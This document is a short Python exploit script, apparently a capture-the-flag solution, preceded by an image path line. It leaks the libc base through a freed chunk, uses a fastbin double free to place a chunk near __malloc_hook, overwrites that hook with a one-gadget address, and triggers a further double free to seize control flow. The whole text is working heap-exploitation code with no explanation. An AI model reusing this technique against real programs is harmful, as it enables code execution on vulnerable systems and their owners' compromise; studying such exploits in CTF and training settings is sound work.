 ```python
def clean():
    sla('choice :', 4)

add(0x80)
add(0x60)
add(0x60)
free(0)
clean()
add(0x80)
show()
ru('a'*8)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
malloc_hook = base + libc.sym['__malloc_hook']
one = base + 0xf02a4

free(1)
free(2)
free(1)
add(0x60,p64(malloc_hook-0x23))
add(0x60)
add(0x60)
add(0x60,'a'*0x13 + p64(one))

free(0)
free(0) # malloc_print_err
```